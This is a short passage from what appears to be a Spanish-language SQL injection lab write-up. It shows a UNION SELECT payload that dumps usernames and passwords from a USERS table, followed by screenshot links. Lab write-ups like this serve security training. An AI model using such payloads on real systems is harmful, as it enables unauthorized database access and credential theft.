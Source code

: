 ```sql
' union select USERNAME_KSODRZ||':'||PASSWORD_YYUEIR,NULL from USERS_ALOPDA--
```

Por ultimo dumpeo la infomacion de las columnas (USERNAME_KSODRZ) y (PASSWORD_YYUEIR), que estan dentro de la tabla (USERS_ALOPDA).

![](/assets/img/ps-writeup-sqli/ps-lab6_11.png)

![](/assets/img/ps-writeup-sqli/ps-lab6_12.png)
